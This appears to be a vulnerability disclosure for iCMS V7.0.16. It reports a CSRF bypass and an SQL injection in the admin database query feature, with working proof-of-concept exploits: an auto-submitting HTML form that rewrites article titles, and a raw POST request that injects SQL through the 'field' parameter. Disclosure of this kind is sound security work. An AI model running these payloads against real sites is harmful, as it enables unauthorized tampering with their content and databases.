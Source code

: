 icms

### My env

iCMS V7.0.16 (latest version)

php 5.6.9

Windows

### 0x01 modify article content without CSRF protection

Attack could modify any article content by csrf attack because of the System csrf protection could be bypassed.

poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://xxx/icms/admincp.php?app=database&do=query&frame=iPHP" method="POST">
      <input type="hidden" name="field" value="title" />
      <input type="hidden" name="pattern" value="helloo" />
      <input type="hidden" name="replacement" value="hacked" />
      <input type="hidden" name="where" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

The `title` field of any article in database matches `helloo` pattern will be changed to `hacked`.

For example:

Before:

![image-20201014112845431](icms.assets/image-20201014112845431.png)

After:

![image-20201014112859173](icms.assets/image-20201014112859173.png)

### 0x02 SQL injection

Same place as 0x01, at `app/database/database.admincp.php:225`, sql injection vulnerability caused by param `$field` which was concat to a SQL query string .

poc: (This poc will change titles of every article to `select version()`)

```
POST /icms/admincp.php?app=database&do=query&frame=iPHP HTTP/1.1
Host: 192.168.125.130
Content-Type: application/x-www-form-urlencoded
Content-Length: 69
Cookie: XXXX

field=title`=version()%23--+&pattern=asdf&replacement=asdf&where=asdf
```

before:

![image-20201014113006432](icms.assets/image-20201014113006432.png)

after:

![image-20201014113118078](icms.assets/image-20201014113118078.png)





